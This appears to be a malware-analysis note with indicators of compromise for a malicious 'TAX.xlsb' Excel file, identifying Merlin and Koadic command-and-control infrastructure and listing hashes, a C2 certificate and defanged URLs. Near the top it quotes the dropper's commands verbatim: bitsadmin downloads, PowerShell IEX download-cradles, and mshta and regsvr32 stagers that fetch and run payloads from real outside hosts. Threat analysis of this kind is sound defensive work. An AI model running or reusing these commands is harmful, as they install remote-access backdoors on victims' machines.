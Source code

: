 ea0923854208956b1f563c5301bd0c9a8561128b7bd48c5b475ddeea29da8a1c - TAX.xlsb
https://app.any.run/tasks/1c7a79e3-a201-43d3-9f4f-693d2049355c/


```
cmd.exe /c cd c:\&&mkdir Intel
ncmd.exe /c bitsadmin /transfer myjob /download /priority high https://kilolo.site/admin.bat c:\Intel\admin.bat
9cmd.exe /c cd c:\Intel&&timeout /t 15&&c:\Intel\admin.bat
jcmd.exe /c bitsadmin /transfer myjob /download /priority high https://kilolo.site/mer.bin c:\Intel\mer.bin
jcmd.exe /c bitsadmin /transfer myjob /download /priority high https://kilolo.site/mer.dll c:\Intel\mer.dll
Fcmd.exe /c cd c:\Intel&&timeout /t 15&&rename mer.bin mer.exe&&mer.exe
cmd.exe /c cd c:\Intel&&timeout /t 15&& copy mer.dll mery.dll&&rundll32.exe mer.dll,Run https://38.132.124.172:443/&regsvr32 /s mery.dll,Run https://38.132.124.172:443/
npowershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://kilolo.site/raw.txt'))
opowershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('https://kilolo.site/raw.txt'))
"mshta http://37.72.175.188:80/home
:regsvr32 /s /u /n /i:http://37.72.175.188:443/index scrobj

```

mer.dll was Merlin DLL agent - golang
fc0bece7ca5c54b7a2032bc0cca2b65f4c20cb08b54a9acca7df037b9d30d2c4

below is Merlin framework C2 - easy signature on empty subject and issuer for self signed
```
# openssl s_client -connect 38.132.124.172:443
CONNECTED(00000003)
Can't use SSL_get_servername
depth=0 
verify error:num=18:self signed certificate
verify return:1
depth=0 
verify return:1
---
Certificate chain
 0 s:
   i:
---
Server certificate
-----BEGIN CERTIFICATE-----
MIIEwDCCAqigAwIBAgIRALEpO/ZeDFiIVssqebRuwb8wDQYJKoZIhvcNAQELBQAw
ADAeFw0xOTEyMTQxODMwNThaFw0yMTEyMTQxODMwNThaMAAwggIiMA0GCSqGSIb3
DQEBAQUAA4ICDwAwggIKAoICAQDEOt7Jsc5Ey+UjNR3QXZI17jCORGPcMnDGHEfP
5DBGPmvw/DDnf8I/Jv3Bi0zeTIDprRHnO9B8uS96mBN5iObPaiaCO9z7SDYjPyYJ
KowztNd9HvAK9dr613iYhAitrFJYqKv/1oFvwqPEYp/FsXsm1+ewxioWxR0xtS8z
JvVzjal+DF4HeViyAMpUSh29P9EjwT+bSfyE8kcPd/uYzOoOL2y/NoBX9QGJto6J
XZ7vl1sLEsk9afBA99GMDbXe2ETPh5/8fDt1B11Aabj96gZNbI7kSVALM0x01no4
OlAyuHG9rVbYoDdtM1MT8oYYpO7RYlA5QW+uo4tcxYfEn4OhUDvhjCzWUmE50KmO
c3c8Ukpn4evwf5rjRonDW4oysKx13i8UCkx4xzxVPZSHxIG30JEiRFH64MOwtF74
hywd07qGPS2KSjPyy6gjRUDEkhxZIHKfnmGc0mmnkDEwtD/1HoHybGCQCQovJuy5
mT4wEV9Xjs4jwoOxBfP+xYPp4Rv0moEgIVkQFVA2t19j3baPb712arTFR2469tD5
9NErRN0M9Z/qbsZIv+pSzspl5IJme5u48RB0Xu0phoahorU3u/e48cAvpjfOk+Mx
8ymUOvQhfE9FF8ZndTzUm1va8BrMil1k1M6Mv49UNCrv6YkQ3GLY5eG7RnXB95Ej
RgEJ7wIDAQABozUwMzAOBgNVHQ8BAf8EBAMCAqQwEwYDVR0lBAwwCgYIKwYBBQUH
AwEwDAYDVR0TAQH/BAIwADANBgkqhkiG9w0BAQsFAAOCAgEArJBO2dtW2LL4RKSr
MHTyuFaLoQY+GkqJKYv4Ww2lar+x2orOP9HBzlFXlWLlBhh/yrvRoznWLeAvzJ1h
Fb3Tl1rxErI1TJl+8uLG1aTJujz1qoibh+VdESvvdQVEW86ZmfyHCecAVu+I11ur
7gpmEY1atio3Fo0dvGsMECvYBn+lmBQD186QKTASNFD/yzY8cDqf2dN4kbMkgiLt
XAnRa9K0kgEgpHY+E6FFSjf+Ax7OAMg7PPbdM3i/hygL2xiDbDNfpGQX20gUCfVg
c1MXfGEiZiJphK7FySHH+zwbXuipM3Rnm7/qVvravmnVqMdQviqs4xg96MVwWL9R
8isZ1u5Je8DSGcXqhMl/ew9G22vJeLYPClUWAuBEYQ821gnliOEEy4xl59MMRYjn
anV9IsEUMhkoFlQA9ifEyhKQPMbVOXy7zzWU+H3AzDOzkp2YfvmgLNhazRxn9mTq
1zzyWWDOn+hjSpz7ncgQotUIQppbenz8Cv0nH7dtANPgG6Vvp9+AexQTkhZLItff
XLr4FizoRkdzkspffKio2u4HMPpw/TEiD/bC3qcOvLbau+KwJWkURSKp2PCgEJBV
9RgqkizUhitkip9MiWbqUEMHKBlS1dsRHBaOB6TeFVpJBMAQ+sJsNlax/G3YdLaj
z4VAo+VAFaOAwJ0eH4lbRR7kcA8=
-----END CERTIFICATE-----

```

hxxp://37.72.175[.]188:443/index

is kodiac backdoor framework - script based with python server


home - 276e409e3371f1b3d905737be03c99ed5b3b4519a03db5aec21b609d488ae06e

index - d369d50b3447d354bc6d69ffb45c2e57dc149ed58946bcfe4cf567806c1676b3

These are both kodiac stagers from data/stager/stdlib.js with different sessions for handing off

hxxp://37.72.175[.]188:80/home?4IZ9S56AA4=e92f3574b16a4a0da0f15b3feca6f16f;N6URWPF5YH=

hxxp://37.72.175[.]188:443/index?6S2YBE0VOY=a9136a756c1e4ab39a0d737c0dbec493;KWYS8DF1UJ=
